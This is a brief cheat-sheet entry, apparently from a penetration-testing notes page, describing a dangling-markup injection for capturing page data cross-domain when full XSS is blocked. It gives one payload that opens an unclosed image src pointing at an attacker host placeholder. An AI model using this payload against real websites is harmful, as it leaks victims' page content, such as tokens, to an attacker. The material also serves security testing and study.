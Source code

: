 ### Capture data cross-domain where full xss is not possible
```
payload does not close the src attribute
parsing of response will treat everything as part of the URL until another quotation mark is encountered
"><img src='//<lhost>/ 
```

